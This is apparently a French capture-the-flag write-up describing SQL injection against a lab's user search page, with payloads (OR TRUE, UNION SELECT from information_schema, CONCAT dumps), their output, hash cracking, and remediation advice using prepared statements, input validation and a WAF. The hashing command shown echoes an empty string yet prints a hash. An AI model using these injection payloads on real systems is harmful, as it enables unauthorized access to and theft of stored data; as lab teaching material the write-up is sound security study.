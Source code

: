 # Exploitation d'une Injection SQL sur la table "members"

## 1. Introduction

L’injection SQL est une faille de sécurité qui me permet, en tant qu'attaquant, d'exécuter des requêtes SQL arbitraires sur une base de données en manipulant les entrées utilisateur d'une application web mal sécurisée. Cette vulnérabilité me donne la possibilité d'accéder, modifier ou supprimer des données sensibles.

Dans ce document, je vais détailler comment j'ai découvert et exploité une injection SQL dans un moteur de recherche d'utilisateurs accessible via l’URL suivante :

```bash
http://IP/?page=member
```

## 2. Identification de la faille

L'application contient un moteur de recherche permettant d’afficher des informations sur un utilisateur à partir de son userID. Une requête valide serait :

### Requête légitime

- **Input** : `1`

- **Requête exécutée par le serveur** :

```bash
SELECT first_name, surname FROM users WHERE users.id = 1;
```

- **Output** :

```bash
ID: 1
First name: one
Surname: me
```

![Premiere injection](./images/1.png)

J'ai testé une tentative simple d'injection SQL en soumettant une requête non prévue :

### Première tentative d'injection

- **Input** : `SELECT * FROM users`

- **Output** :

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version...
```

![Deuxième injection](./images/2.png)

Cette erreur SQL brute m'indique que l’application concatène directement mon entrée dans une requête SQL.

## 3. Exploitation de la faille

### 3.1 Injection d’une condition toujours vraie

En injectant une condition toujours vraie (`OR TRUE`), je peux récupérer tous les utilisateurs.

- **Input** : `1 OR TRUE`

- **Requête exécutée** :

```
SELECT first_name, surname FROM users WHERE users.id = 1 OR TRUE;
```

- **Output** :

```bash
ID: 1 OR TRUE
First name: one
Surname: me

ID: 1 OR TRUE
First name: two
Surname: me

ID: 1 OR TRUE
First name: Flag
Surname: GetThe
```

![Troisième injection](./images/3.png)

Je vois ici que la requête retourne tous les utilisateurs, dont un utilisateur nommé Flag GetThe.

### 3.2 Injection UNION SELECT

J'ai ensuite tenté une attaque `UNION SELECT` pour récupérer les noms des colonnes :

- **Input** : `-1 UNION SELECT table_name, column_name FROM information_schema.columns`

- **Output** :

```bash
First name: users
Surname : user_id
First name: users
Surname : first_name
First name: users
Surname : countersign
```

J'ai ainsi découvert la structure de la table users, avec la colonne countersign contenant des informations intéressantes.

### 3.3 Récupération des données sensibles

J'ai concaténé toutes les colonnes d’un utilisateur pour voir son contenu :

- **Input** : `-1 UNION SELECT CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign), 1 FROM users`

- **Output** :

```bash
First name: 5FlagGetThe424242Decrypt this password -> then lower all the char. Sha256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

![Quatrième injection](./images/4.png)

### 3.4 Déchiffrement du mot de passe

Le message indique une opération de hachage SHA-256 après conversion en minuscules.

- **Déchiffrement de `5ff9d0165b4f92b14994e5c685cdce28` (MD5)** : `FortyTwo`

![Hashage](./images/5.png)

- **Conversion en minuscules** : `fortytwo`

- **Hachage SHA-256** :

```bash
echo -n "" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## 4. Prévention de la faille

### 4.1 Utilisation des requêtes préparées

Les requêtes préparées empêchent l’injection SQL en séparant la logique SQL des entrées utilisateur :

```bash
$stmt = $pdo->prepare("SELECT first_name, surname FROM users WHERE users.id = :id");
$stmt->execute(['id' => $_GET['id']]);
$result = $stmt->fetch();
```

## 4.2 Validation des entrées utilisateur

- Vérifier que `id` est un entier (`is_numeric($_GET['id'])`).

- Ne jamais afficher directement les erreurs SQL.

### 4.3 Utilisation d'un WAF (Web Application Firewall)

Un WAF comme ModSecurity peut bloquer les tentatives d'injection SQL en détectant des patterns malveillants.

5. Conclusion

J'ai exploité une faille SQL Injection pour obtenir les utilisateurs d’une base de données et récupérer un mot de passe chiffré. J'ai démontré comment empêcher cette vulnérabilité avec des requêtes préparées, une validation stricte des entrées utilisateur et l’utilisation d’un WAF.

